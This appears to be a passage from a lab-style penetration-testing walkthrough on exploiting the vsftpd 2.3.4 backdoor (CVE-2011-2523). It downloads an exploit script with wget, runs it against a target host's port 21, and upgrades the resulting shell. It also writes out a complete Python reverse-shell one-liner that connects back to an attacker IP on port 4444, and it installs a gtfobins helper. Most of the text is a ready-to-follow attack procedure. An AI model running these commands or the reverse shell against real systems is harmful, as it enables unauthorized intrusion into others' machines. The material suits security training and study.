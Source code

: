 In several repositories such as github, db exploit, pastebin we can find exploits to vsftpd 2.3.4

a) [https://www.exploit-db.com/exploits/49757](https://www.exploit-db.com/exploits/49757)

b) [https://github.com/nomi-sec/PoC-in-GitHub/blob/master/2011/CVE-2011-2523.json](https://github.com/nomi-sec/PoC-in-GitHub/blob/master/2011/CVE-2011-2523.json)_

for a demo we will download this exploit
```
wget https://gist.githubusercontent.com/thaisingle/e2af5a83f06dc91fdf60faa23f43ffec/raw/ba8505125ccd2f9ae30c56903f2e817aa96b1854/vsFtpdBackdoor.py
```
Open the exploit and review how to use the command
```
mousepad vsFtpdBackdoor.py
```
![26](https://user-images.githubusercontent.com/50930193/118383451-5852be80-b5c3-11eb-8977-6efd4854e0b5.jpg)

Give execution rights to exploit and execute the exploit
```
chmod +x vsFtpdBackdoor.py
./vsFtpdBackdoor.py 192.168.153.169 21 
```
We get a shell but is not interactive

![27](https://user-images.githubusercontent.com/50930193/118383614-20e51180-b5c5-11eb-9f6c-996e24769d91.jpg)

To get a iterative shell we have to ways:

1) Directly with python command of gtfobin
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

2) Getting a reverse shell, you can use the following commands
```
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("192.168.153.167",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import pty;pty.spawn("/bin/bash")'
```
![29](https://user-images.githubusercontent.com/50930193/118383886-994cd200-b5c7-11eb-80a2-d801217737af.jpg)

###  ADDITIONAL RESOURCES

Install scripts to gtfobins
_src: [https://gtfobins.github.io/](https://gtfobins.github.io/)_
```
git clone https://github.com/t0thkr1s/gtfo
cd gtfo
python3 setup.py install
```
To run the command you have to add the binary
```
python3 gtfo.py [binary]
```
